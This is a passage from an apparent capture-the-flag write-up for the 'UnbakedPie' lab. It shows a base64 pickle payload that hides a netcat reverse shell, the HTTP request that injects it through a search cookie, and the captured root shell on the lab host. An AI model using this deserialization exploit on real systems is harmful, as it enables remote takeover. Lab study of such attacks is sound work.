 ```bash

```


```bash
:~/UnbakedPie# python3 rev.py
b'gASVbAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFFybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xMzIuMTA5IDQ0NDQgPiAvdG1wL2aUhZRSlC4='
```

<p><em>Request</em></p>

```bash
POST /search HTTP/1.1
Host: unbaked.thm:5003
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://unbaked.thm:5003/search
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: http://unbaked.thm:5003
Connection:close
Cookie: csrftoken=2AjaPaX6os36jPKgUQ6SR8dQJzb812zqYKqAu8vsuLZXQJzrq5zPGjK5fbn4bhJy; search_cookie="gASVbAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFFybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xMzIuMTA5IDQ0NDQgPiAvdG1wL2aUhZRSlC4="
Upgrade-Insecure-Requests: 1

csrfmiddlewaretoken=LmD1IcRMWYxmCA0guV7OPMvntxPLuZAiHwKrnap82htd9uPr0aALEX2CZ91HEeKq&query=Hello
```

<p><em>Response</em></p>

```bash
root@ip-10-10-132-109:~/UnbakedPie# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.171.27 38694
/bin/sh: 0: can't access tty; job control turned off
# which python3
/usr/local/bin/python3
# python3 -c "import pty;pty.spawn('/bin/bash')"
root@8b39a559b296:/home# ^Z
[1]+  Stopped                 nc -nlvp 4444
root@ip-10-10-132-109:~/UnbakedPie# stty raw -echo; fg
nc -nlvp 4444

root@8b39a559b296:/home# cd /root
root@8b39a559b296:~# ls -lah
total 36K
drwx------ 1 root root 4.0K Oct  3  2020 .
drwxr-xr-x 1 root root 4.0K Oct  3  2020 ..
-rw------- 1 root root  889 Oct  6  2020 .bash_history
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4.0K Oct  3  2020 .cache
drwxr-xr-x 3 root root 4.0K Oct  3  2020 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw------- 1 root root    0 Sep 24  2020 .python_history
drwx------ 2 root root 4.0K Oct  3  2020 .ssh
-rw-r--r-- 1 root root  254 Oct  3  2020 .wget-hsts
root@8b39a559b296:~# getent hosts
127.0.0.1       localhost
127.0.0.1       localhost ip6-localhost ip6-loopback
172.17.0.2      8b39a559b296
root@8b39a559b296:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
```
